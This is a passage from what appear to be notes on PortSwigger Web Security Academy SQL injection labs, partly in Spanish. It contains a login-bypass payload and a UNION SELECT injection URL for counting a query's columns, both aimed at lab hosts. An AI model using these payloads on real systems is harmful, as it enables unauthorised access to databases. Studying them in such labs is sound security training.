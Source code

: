 password: `'or 1 = 1 --`
  
##  Retrieving data from other database tables(Union attacks)
  
  
###  Lab3: SQL injection UNION attack, determining the number of columns returned by the query
  
![sql3.png](sql3.png )
  
```http
https://ac961fdd1e31962380aa27ed00e300af.web-security-academy.net/filter?category=Accessories' union select null,null,null --
```
  
###  Finding columns with a useful data type in an SQL injection UNION attack
  
  
####  Lab4: SQL injection UNION attack, finding a column containing text
  
  
Lo primero es encontrar la cantidad de columnas que tiene la tabla
  
![sql4.1.png](sql4.1.png )
  